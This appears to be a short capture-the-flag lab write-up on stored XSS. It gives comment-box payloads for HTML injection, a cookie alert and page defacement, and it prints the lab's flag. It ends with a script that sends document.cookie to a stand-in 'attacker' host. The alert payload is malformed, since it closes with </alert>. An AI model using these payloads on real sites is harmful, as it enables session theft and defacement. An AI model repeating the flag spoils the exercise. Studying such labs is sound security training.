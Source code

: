 > XSS

# Types of XSS

1. Stored
2. Reflected

# Stored XSS

Stored cross-site scripting is the most dangerous type of XSS. This is where a malicious string originates from the websites database. This often happens when a website allows user input that is not sanitised (remove the "bad parts" of a users input) when inserted into the database.  

## Challenge 1: http://10.10.255.53/stored

We can add comments in this webpage. 

# Task 1: Add a comment and see if you can insert some of your own HTML.

*Payload*: `<!-- comment -->`

# Task 2: Create an alert popup box appear on the page with your document cookies.

*Payload*: `<script>alert(document.cookie)</alert>`

# Task 3: Change "XSS Playground" to "I am a hacker" by adding comments and using Javascript.

We can notice the Id of XSS Playgroung using Inspect element and in the console tab we can type 

`document.querySelector('#thm-title').textContent = 'I am a Hacker'`

Let's put the payload in comment box. 

*Payload*: `<script>document.getElementById('thm-title').innerHTML="I am a hacker";</script>`

```
websites_can_be_easily_defaced_with_xss
```

Stored XSS can be used to steal a victims cookie (data on a machine that authenticates a user to a webserver). This can be done by having a victims browser parse the following Javascript code:

`<script>window.location='http://attacker/?cookie='+document.cookie</script>`

This script navigates the users browser to a different URL, this new request will includes a victims cookie as a query parameter. When the attacker has acquired the cookie, they can use it to impersonate the victim. 
